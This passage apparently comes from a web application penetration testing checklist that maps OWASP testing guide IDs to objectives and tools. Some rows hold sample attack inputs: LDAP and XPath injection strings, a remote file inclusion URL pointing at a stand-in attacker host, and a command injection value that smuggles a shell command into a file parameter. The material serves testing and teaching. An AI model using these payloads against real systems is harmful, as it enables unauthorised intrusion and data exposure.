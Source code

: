 |6.8|WSTG-SESS-08|[Testing for Session Puzzling](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/08-Testing_for_Session_Puzzling)|- Identify all session variables.  - Break the logical flow of session generation.  - Check whether the application uses the same session variable for more than one purpose|Burpsuite/ZAP|
|6.9|WSTG-SESS-09|[Testing for Session Hijacking](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/09-Testing_for_Session_Hijacking)|- Identify vulnerable session cookies.  - Hijack vulnerable cookies and assess the risk level.|Burpsuite/ZAP|
|6.10|WSTG-SESS-10|[Testing JSON Web Tokens](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)|- Determine whether the JWTs expose sensitive information.  - Determine whether the JWTs can be tampered with or modified.|Burpsuite/ZAP|


## 7. Data Validation Testing

|ID|Link to Hackinglife|Link to OWASP|Objectives|Tools|
|:---|:---|:---|:---|:---|
|7.1|WSTG-INPV-01|[Testing for Reflected Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)|- Identify variables that are reflected in responses.  - Assess the input they accept and the encoding that gets applied on return (if any).|Burpsuite/ZAP|
|7.2|WSTG-INPV-02|[Testing for Stored Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)|- Identify stored input that is reflected on the client-side.  - Assess the input they accept and the encoding that gets applied on return (if any).|Burpsuite/ZAP|
|7.3|WSTG-INPV-03|[Testing for HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)|N/A, This content has been merged into: WSTG-CONF-06|NA|
|7.4|WSTG-INPV-04|[Testing for HTTP Parameter Pollution](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution)|- Identify the backend and the parsing method used.  - Assess injection points and try bypassing input filters using HPP.|Burpsuite/ZAP|
|7.5|WSTG-INPV-05|[Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)|- Identify SQL injection points.  - Assess the severity of the injection and the level of access that can be achieved through it.|Burpsuite/ZAP SQLMap, NoSQLMap|
|7.6|WSTG-INPV-06|[Testing for LDAP Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection)|- Identify LDAP injection points:  /ldapsearch?user=*  user=*user=*)(uid=*))(\|(uid=*  pass=password  - Assess the severity of the injection:|Burpsuite/ZAP|
|7.7|WSTG-INPV-07|[Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)|- Identify XML injection points with XML Meta Characters:  ', " , <>, , &, <![CDATA[ / ]]>, XXE, TAG  - Assess the types of exploits that can be attained and their severities.|Burpsuite/ZAP, Wfuzz|
|7.8|WSTG-INPV-08|[Testing for SSI Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection)|- Identify SSI injection points (Presense of .shtml extension) with these characters:  < ! # = / . " - > and [a-zA-Z0-9]  - Assess the severity of the injection.|Burpsuite/ZAP|
|7.9|WSTG-INPV-09|[Testing for XPath Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/09-Testing_for_XPath_Injection)|- Identify XPATH injection points by checking for XML error enumeration by supplying a single quote ('):  Username: ‘ or ‘1’ = ‘1  Password: ‘ or ‘1’ = ‘1|Burpsuite/ZAP|
|7.10|WSTG-INPV-10|[Testing for IMAP SMTP Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/10-Testing_for_IMAP_SMTP_Injection)|- Identify IMAP/SMTP injection points (Header, Body, Footer) with special characters (i.e.: \, ‘, “, @, #, !, \|)  - Understand the data flow and deployment structure of the system.  - Assess the injection impacts.|Burpsuite/ZAP|
|7.11|WSTG-INPV-11|[Testing for Code Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11-Testing_for_Code_Injection)|- Identify injection points where you can inject code into the application.  - Check LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource).  - Check RFI from malicious URL  ?page.php?file=http://attacker.com/malicious_page  - Assess the injection severity.|Burpsuite/ZAP  Liffy  LFImap|
|7.12|WSTG-INPV-12|[Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)|- Identify and assess the command injection points with special characters (i.e.: \| ; & $ > < ' !)  For example: ?doc=Doc1.pdf+\|+Dir c:\|Burpsuite/ZAP Commix|